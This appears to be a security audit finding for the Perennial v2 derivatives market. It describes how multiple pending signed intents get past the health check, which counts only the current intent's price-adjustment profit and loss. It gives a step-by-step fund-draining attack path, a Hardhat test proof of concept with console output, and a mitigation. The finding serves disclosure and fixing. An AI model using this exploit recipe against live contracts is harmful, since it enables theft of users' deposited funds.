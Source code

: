 Clumsy Pink Otter

High

# Anyone can steal all funds from the `market` due to incorrect health accounting for pending pnl from difference of intent price and market price when multiple intents are used.

### Summary

When user opens position from signed intent, pending orders are created for 2 accounts (intent taker and maker) with user-specified price. Upon settlement, there is some pnl realized to both accounts due to difference of intent price and market price. The intent price is specified by the user and can be any number within the limits set by the protocols off the latest commited price. The issue is that this pnl is accounted for in account health only for one (current) intent. If there are multiple intents pending for the same account, then all the other intents are ignored and thus attacker can send multiple intents, each of which keeps account healthy, but all of them combined put account into highly negative collateral, which is ignored by health check. This allows attacker to withdraw inflated profit from the other account, stealing all funds from the `market`.

### Root Cause

When account health is checked, collateral is adjusted for only current intent (`newGuarantee`) in `InvariantLib.validate`:
https://github.com/sherlock-audit/2024-08-perennial-v2-update-3-panprog/blob/ac46a2fc8baf6c827ee20c69eecae66561a5c65f/perennial-v2/packages/perennial/contracts/types/Guarantee.sol#L71

All the other intents (at this, or previous pending orders) are ignored.

### Internal Pre-conditions

None.

### External Pre-conditions

None.

### Attack Path

Since intents can be easily created by any user, there are no pre-conditions for the attack. The scenario is as following:
- Attacker deposits some collateral into `account1` and `account2` (for example, `40`)
- Attacker signs intent with some position (like long `1`) and a price which is much higher than latest oracle price, but inside the protocol's max price deviation limit (say, of `120` when current price is `100`) from `account1`
- Attacker uses `account2` to calls `market.update` with the signed intent from `account1`. This is accepted, as `account1` collateral when checking update invariant is `40 + 1 * (100 - 120) = 40 - 20 = 20`
- The same intent is signed again from `account1` and `account2` submits it again. This is accepted again, as `account1` collateral when checking update invariant is again `40 + 1 * (100 - 120) = 40 - 20 = 20` (it only accounts the 2nd intent, ignoring the 1st intent). However, if this is settled (both intents), the collateral will be `40 + 2 * (100 - 120) = 40 - 40 = 0`.
- The same intent is signed again from `account1` and `account2` submits it again. This is accepted again, as `account1` collateral when checking update invariant is again `40 + 1 * (100 - 120) = 40 - 20 = 20` (it only accounts the 3rd intent, ignoring the 1st and the 2nd intents). However, if this is settled (all 3 intents), the collateral will be `40 + 3 * (100 - 120) = 40 - 60 = -20`.
- This is repeated as many times as necessary (everything in the same epoch, so that all intents are not settled)
- After the settlement, sum of all intents causes `account1` to be in highly negative collateral, while `account2` will be in the same profit.
- Attacker withdraws all funds which `market` has.

### Impact

All market collateral token balance is stolen.

### PoC

Add to `test/unit/Market.test.ts` in the `invariant violations` context:
```solidity
      it('multiple intents ignore pnl from the other intents price adjustments', async () => {
        const marketParameter = { ...(await market.parameter()) }
        marketParameter.maxPriceDeviation = parse6decimal('10.00')
        await market.updateParameter(marketParameter)

        const intent = {
          amount: parse6decimal('0.3'),
          price: parse6decimal('1250'),
          fee: parse6decimal('0.5'),
          originator: liquidator.address,
          solver: owner.address,
          collateralization: parse6decimal('0.01'),
          common: {
            account: user.address,
            signer: user.address,
            domain: market.address,
            nonce: 0,
            group: 0,
            expiry: 0,
          },
        }

        const intent2 = {
          amount: parse6decimal('0.3'),
          price: parse6decimal('1250'),
          fee: parse6decimal('0.5'),
          originator: liquidator.address,
          solver: owner.address,
          collateralization: parse6decimal('0.01'),
          common: {
            account: user.address,
            signer: user.address,
            domain: market.address,
            nonce: 1,
            group: 0,
            expiry: 0,
          },
        }

        const LOWER_COLLATERAL = parse6decimal('500')

        dsu.transferFrom.whenCalledWith(user.address, market.address, LOWER_COLLATERAL.mul(1e12)).returns(true)
        dsu.transferFrom.whenCalledWith(userB.address, market.address, LOWER_COLLATERAL.mul(1e12)).returns(true)
        dsu.transferFrom.whenCalledWith(userC.address, market.address, LOWER_COLLATERAL.mul(1e12)).returns(true)

        await market
          .connect(userB)
          ['update(address,uint256,uint256,uint256,int256,bool)'](
            userB.address,
            POSITION,
            0,
            0,
            LOWER_COLLATERAL,
            false,
          )

        await market
          .connect(user)
          ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, 0, 0, LOWER_COLLATERAL, false)
        await market
          .connect(userC)
          ['update(address,uint256,uint256,uint256,int256,bool)'](userC.address, 0, 0, 0, LOWER_COLLATERAL, false)

        oracle.at.whenCalledWith(ORACLE_VERSION_2.timestamp).returns([ORACLE_VERSION_2, INITIALIZED_ORACLE_RECEIPT])
        oracle.at.whenCalledWith(ORACLE_VERSION_3.timestamp).returns([ORACLE_VERSION_3, INITIALIZED_ORACLE_RECEIPT])
        oracle.at.whenCalledWith(ORACLE_VERSION_4.timestamp).returns([ORACLE_VERSION_4, INITIALIZED_ORACLE_RECEIPT])
        oracle.status.returns([ORACLE_VERSION_2, ORACLE_VERSION_3.timestamp])
  
        verifier.verifyIntent.returns()

        // solver
        factory.authorization
          .whenCalledWith(userC.address, userC.address, userC.address, constants.AddressZero)
          .returns([true, true, BigNumber.from(0)])
        // taker
        factory.authorization
          .whenCalledWith(user.address, userC.address, user.address, liquidator.address)
          .returns([false, true, parse6decimal('0.20')])

        await market
          .connect(userC)
          [
            'update(address,(int256,int256,uint256,address,address,uint256,(address,address,address,uint256,uint256,uint256)),bytes)'
          ](userC.address, intent, DEFAULT_SIGNATURE);

        await market
          .connect(userC)
          [
            'update(address,(int256,int256,uint256,address,address,uint256,(address,address,address,uint256,uint256,uint256)),bytes)'
          ](userC.address, intent2, DEFAULT_SIGNATURE);

        oracle.status.returns([ORACLE_VERSION_3, ORACLE_VERSION_4.timestamp])
      
        await settle(market, user)
        await settle(market, userB)
        await settle(market, userC)
      
        var loc = await market.locals(user.address);
        console.log("user collateral: " + loc.collateral);
        var pos = await market.positions(user.address);
        console.log("user pos: long = " + pos.long);
    
        var loc = await market.locals(userC.address);
        console.log("userC collateral: " + loc.collateral);
        var pos = await market.positions(userC.address);
        console.log("userC pos: short = " + pos.short);
      })
```

Console output:
```solidity
user collateral: -176200000
user pos: long = 600000
userC collateral: 1176200000
userC pos: short = 600000
```

Notice that final userC's collateral is higher than sum of collateral of both users at the start, meaning that attacker has stolen these funds from the market.

### Mitigation

Calculate sum of price adjustments for all pending guarantees (from latest + 1 to current), and add it to collateral when validating margined requirement.